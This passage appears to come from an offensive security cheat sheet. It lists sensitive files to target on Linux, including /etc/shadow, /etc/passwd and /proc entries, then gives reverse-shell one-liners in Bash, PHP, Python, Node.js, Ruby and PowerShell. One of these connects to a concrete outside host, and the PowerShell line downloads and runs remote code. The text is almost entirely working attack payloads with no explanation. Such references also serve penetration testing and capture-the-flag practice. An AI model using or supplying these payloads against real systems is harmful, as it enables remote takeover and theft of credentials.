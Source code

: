 <span style="color:#21C587">&#35;</span><strong> Ubuntu</strong><br>
```
/etc/passwd
/etc/issue
/etc/shadow
/etc/group
/etc/hosts
/etc/motd
/proc/self/exe
/proc/net/arp
/proc/net/route
```

<span style="color:#21C587">&#35;</span><strong> Node</strong><br>
```
package.json
```

---
## Reverse Shell<br>
<span style="color:#21C587">&#35;</span><strong> Bash</strong><br>
```
bash -i >& /dev/tcp/domain/port 0>&1
bash -c 'bash -i >& /dev/tcp/domain/port 0>&1'
0<&196;exec 196<>/dev/tcp/domain/port; sh <&196 >&196 2>&196
```

<span style="color:#21C587">&#35;</span><strong> PHP</strong><br>
```php
php -r '$sock=fsockopen("domain",port);exec("/bin/sh -i <&3 >&3 2>&3");'
```

<span style="color:#21C587">&#35;</span><strong> Python</strong><br>
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("kaibro.tw",5566));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

<span style="color:#21C587">&#35;</span><strong> Node.js</strong><br>
```javascript
var net = require("net"), sh = require("child_process").exec("/bin/bash"); var client = new net.Socket(); client.connect(port, "domain", function(){client.pipe(sh.stdin);sh.stdout.pipe(client); sh.stderr.pipe(client);});

require('child_process').exec("bash -c 'bash -i >& /dev/tcp/domain/port 0>&1'");
```

<span style="color:#21C587">&#35;</span><strong> Ruby</strong><br>
```ruby
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("domain","port");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

<span style="color:#21C587">&#35;</span><strong> Powershell</strong><br>
```
powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c domain -p port -e cmd
```

---